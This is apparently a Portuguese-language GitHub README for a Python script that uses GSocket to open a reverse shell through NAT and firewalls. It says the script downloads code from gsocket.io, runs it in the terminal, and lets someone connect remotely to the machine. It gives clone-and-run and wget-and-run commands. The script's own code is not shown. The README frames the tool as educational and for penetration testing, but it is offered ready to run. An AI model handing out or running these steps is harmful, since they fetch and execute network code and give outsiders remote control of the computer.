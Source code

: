 # 🐚 Shell Reverso com GSocket

![Captura de Tela (7)](https://github.com/user-attachments/assets/522b4a3a-dcf2-4ea9-8e30-b2e86ebcda26)


Este repositório contém um script em Python que utiliza a ferramenta [GSocket](https://gsocket.io) para criar uma **conexão reversa segura** e estável, mesmo atrás de NATs ou firewalls. Ideal para fins educacionais, testes de penetração ou demonstrações de segurança ofensiva, O script baixa um código da internet (do site gsocket.io) e executa ele no seu computador via terminal, salvando o que ele imprimir no arquivo output.txt. Isso pode permitir que alguém se conecte remotamente ao seu computador.

---

## ⚙️ Requisitos

- Python 3
- cURL
- Permissão para execução de comandos no terminal
- Conexão com a internet

---

## 📦 Instalação

Clone o repositório:

```bash
git clone https://github.com/AndreyFreitaz/Shell-Reverso.git
cd Shell-Reverso
python3 gsocket.py
cat output.txt
```

ou
```bash
wget https://raw.githubusercontent.com/Andreyftg/Shell-Reverso/refs/heads/main/gsocket.py
python3 gsocket.py
cat output.txt
```



